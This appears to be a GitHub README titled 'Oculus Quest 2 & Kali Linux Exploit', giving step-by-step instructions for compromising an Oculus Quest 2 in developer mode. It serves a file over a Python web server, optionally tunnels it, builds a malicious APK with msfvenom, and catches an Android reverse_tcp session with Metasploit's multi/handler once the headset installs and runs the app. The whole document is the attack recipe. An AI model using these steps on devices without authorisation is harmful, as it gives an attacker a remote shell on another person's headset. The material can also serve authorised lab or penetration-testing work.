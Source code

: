 # Kali
### Oculus Quest 2 &amp; Kali Linux Exploit

Prerequisite Setup:
Oculus Quest 2 Developer Mode Enabled

Steps:
Configure WebServer from Kali <br/>
sudo python3 -m http.server --bind 127.0.0.1 9000 <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/apache%20webserver.png)

Configure localtunnel for browser redirect (optional) <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/localtunnel.png)

Confirm access to webserver on custom port
Create msfvenom malicious android .apk & put on desktop<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/msfvenom.png)

Launch msfconsole and use exploit/multi/handler for android reverse_tcp payload & 
set LHOST
show options
exploit

Download & Install androidApp.apk from WebServer<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/oculus%20browser.png)

Run MainActivity com.metasploit.stage<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/unsupported%20apps.png)
  
  
Links:
  Access Android with Metasploit Kali (Cybersecurity) - https://www.youtube.com/watch?v=YRm-St0bJhU
  How To Set Up Port Forwarding in Kali Linux Without Router Access | Kali Linux 2021.2 - https://www.youtube.com/watch?v=juu5PM0_NUI
  Kali http server setup - https://linuxconfig.org/kali-http-server-setup
